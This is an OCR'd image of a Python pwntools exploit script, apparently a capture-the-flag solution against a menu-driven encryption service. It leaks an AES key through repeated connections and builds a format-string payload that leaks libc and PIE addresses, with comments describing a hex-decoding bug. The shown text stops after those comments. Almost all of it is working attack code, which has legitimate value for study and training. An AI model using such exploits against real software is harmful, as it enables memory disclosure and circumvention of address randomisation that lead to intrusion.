```python

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

def conceal(idx, size, text):
    r.sendlineafter('ID:', str(idx))
    r.sendlineafter('quest\n', '1')
    r.sendlineafter('size:\n', str(size))
    r.sendlineafter('plaintext:', text)
    r.recvuntil('concealed!\n')
    hex_ct = r.recvuntil('\n')[:-1]
    return hex_ct

def change(idx, enc_name, iv):
    r.sendlineafter('ID:', str(idx))
    r.sendlineafter('quest\n', '2')
    r.sendlineafter('name:', enc_name)
    r.sendlineafter('):', iv)

def remove(idx):
    r.sendlineafter('ID:', str(idx))
    r.sendlineafter('quest\n', '3')

while(1):
    r = start()

    r.recvuntil('IV:')
    hex_iv = r.recvuntil('\n')[:-1]
    iv = unhexlify(hex_iv)

    r.sendlineafter('code :', 'aaa')
    ct = conceal(2, 0x8, 'A')
    change(2, ct, iv)
    try:
        r.recvuntil('new name:')
        leak = r.recvuntil('Enter')
        key = leak[0x10:0x20]
        if len(hexlify(key)) != 0x20:
            r.close()
            continue
        break
    except:
        r.close()

# iv = leak[0x20:0x30]
print "KEY:", hexlify(key), len(key)
print "IV :", hexlify(iv), len(iv)

# leak libc and pie
pt = '%35$p'
pt += '\xff'*2
pt += '%34$p'
pt += '\xff'*2
pt += '\x02'*2

# 1. function "read_data" reads only 0x1f byte (in hex string). we can't fully input our block.
# 2. ct will be decrypted properly only if ct is in hex format and the last 2byte is like "0X".
#    (this bug is in the function "hextostring")
#    example:
#       a. last 2byte is "12" -> "read_data" recieve as "1" -> "hextostring" decode as "01"
#       b. last 2byte is "03" -> "read_data" recieve as "0" -> "hextostring" decode as "00"
#       c. last 2byte is "3x" -> "read_data" recieve as "3" -> "hextostring" decode as "03"
#
# 3. we have to search good iv that meets above condition. (like example c)
```
